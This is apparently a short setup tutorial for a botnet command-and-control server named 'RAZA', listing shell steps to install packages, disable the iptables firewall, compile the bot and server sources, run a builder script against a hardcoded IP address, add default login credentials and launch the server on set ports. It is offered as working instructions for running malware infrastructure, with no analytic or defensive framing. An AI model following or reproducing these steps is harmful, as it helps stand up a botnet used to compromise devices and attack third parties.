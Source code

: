 Tut Made My RAZA
----------------------------
Put server Ip in bot_RAZA.c						 
--------------------------------------------------------------------
yum install python-paramiko nano screen gcc perl wget lbzip unzip -y
--------------------------------------------------------------------
service httpd restart 
service iptables stop
--------------------------------------------------------------------
gcc raza.c -o server -pthread
--------------------------------------------------------------------
python RAZA.py bot_RAZA.c 51.89.62.246  (Server IP)
--------------------------------------------------------------------
echo raza raza >>Login.txt
------------------------------
screen ./server 1111 1 8882
------------------------------
If Doesn't Screen
------------------------------
yum install screen
------------------------------
pkill screen
------------------------------
screen ./server 1111 1 8882
